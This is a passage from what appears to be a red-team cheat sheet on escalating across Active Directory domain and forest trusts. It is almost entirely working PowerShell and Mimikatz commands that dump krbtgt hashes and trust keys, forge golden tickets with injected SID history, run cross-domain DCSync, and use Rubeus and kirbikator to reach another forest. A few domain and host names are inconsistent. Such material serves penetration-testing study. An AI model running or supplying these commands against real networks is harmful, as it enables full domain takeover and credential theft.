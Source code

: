 ```powershell
# In a multilevel schema it's possible to do the previous steps multiple times to compromise one parent at a time until reaching the forest root
```

### Child to Parent using Krbtgt Hash

```powershell
# Easier version of the previous
# Look for krbtgt  hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'      

# Get the TGS from child domain pushing the SID-HIstory and user over-pass-the-hash
# The parent  domain will trust the ticket even if it is created in the child domain
# No need to use other 
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local> /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:<hash> /ptt" "exit"

# Access  
gwmi -class win32_operatingsystem -ComputerName mcorp-dc.corporate.local

# Dcsync across domain
Invoke-Mimikatz -Command '"lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:mcorp\administrator /domain:moneycorp.local"'

# Additional notet on SID History (https://blog.harmj0y.net/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/) 
# In some complex contexts (filtering/monitoring between domains) it can help to add some extra SIDs
# forest root Domain controllers (forest_root_SID-516)
# Enterprise Domain controller (S-1-5-9)
Invoke-Mimikatz -Command '"kerberos::golden /user:dcorp-dc$ /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /groups:516 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:<hash> /ptt" "exit"
```

### Across Forest using Trust Tickets

```powershell
# Forest is considered to be a Security Boundary
# Injecting a SID-History for target "Enterprise admins" group doesn't work because
# There is a SID Filtering between two forest that remove the RIDs beetween 500 and 1000 from the SID-History (so it's not possible to fake privileged identity into another forest)

# However it's possible to resources shared from the target forest to the source forest (standard shares, but no c$ and administrative shares)

# Request the trust key for the inter forest trust
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' 

# Forge a Golden ticket with source moneycorp.local and target eurocorp.local
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /rc4:<hash> /service:krbtgt /target:eurocorp.local /ticket:C:\test\kekeo_old\trust_forest_tkt.kirbi"'

# Then request TGS for CIFS service in the other forest and iject with kirbikator
.\asktgs.exe C:\test\trust_forest_tkt.kirbi CIFS/eurocorp-dc.corporate.local
.\kirbikator.exe lsa .\CIFS.eurocorp-dc.corporate.local.kirbi

# Alternative with Rubeus
Rubeus.exe asktgs /ticket:C:\test\trust_forest_tkt.kirbi /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorpm-dc.eurocorp.local /ptt

```